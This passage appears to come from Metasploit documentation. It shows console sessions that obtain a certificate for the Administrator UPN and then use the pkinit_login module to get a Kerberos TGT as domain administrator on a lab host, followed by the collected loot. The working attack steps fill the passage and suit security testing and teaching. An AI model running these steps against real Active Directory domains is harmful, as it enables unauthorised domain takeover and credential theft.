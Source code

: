 ```
[*] 172.30.239.85:445 - Requesting a certificate...
[+] 172.30.239.85:445 - The requested certificate was issued.
[*] 172.30.239.85:445 - Certificate UPN: Administrator@daforest.com
[*] 172.30.239.85:445 - Certificate stored at: /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) >
```

We can then use the `pkinit_login` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator` domain administrator:

```
msf6 auxiliary(admin/dcerpc/icpr_cert) > use auxiliary/admin/kerberos/pkinit_login
msf6 auxiliary(admin/kerberos/pkinit_login) > show options

Module options (auxiliary/admin/kerberos/pkinit_login):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   CERT_FILE                   yes       File containing a certificate (*.pfx) to authenticate with
   CERT_PASS                   no        Password for the Certificate file
   DOMAIN                      no        Override domain in certificate file
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                         wiki/Using-Metasploit
   RPORT      88               yes       The target port
   Timeout    10               yes       The TCP timeout to establish connection and read data
   USERNAME                    no        Override username in certificate file


View the full module info with the info, or info -d command.

msf6 auxiliary(admin/kerberos/pkinit_login) > set CERT_FILE /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
CERT_FILE => /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
msf6 auxiliary(admin/kerberos/pkinit_login) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/kerberos/pkinit_login) > run
[*] Running module against 172.30.239.85

[*] Attempting PKINIT login for Administrator@daforest.com
[+] Successfully authenticated with certificate
[*] 172.30.239.85:88 - TGT MIT Credential Cache ticket saved to /home/gwillcox/.msf4/loot/20221216143858_default_172.30.239.85_mit.kerberos.cca_391796.bin
[*] Auxiliary module execution completed
msf6 auxiliary(admin/kerberos/pkinit_login) > loot

Loot
====

host           service  type                 name             content                   info                                                                     path
----           -------  ----                 ----             -------                   ----                                                                     ----
                        windows.ad.cs        certificate.pfx  application/x-pkcs12      DAFOREST\normal Certificate                                              /home/gwillcox/.msf4/loot/20221216143830_default_unknown_windows.ad.cs_338144.pfx
172.30.239.85           mit.kerberos.ccache                   application/octet-stream  realm: DAFOREST.COM, client: administrator, server: krbtgt/daforest.com  /home/gwillcox/.msf4/loot/20221216143858_default_172.30.239.85_mit.kerberos.cca_391796.bin

msf6 auxiliary(admin/kerberos/pkinit_login) >
```
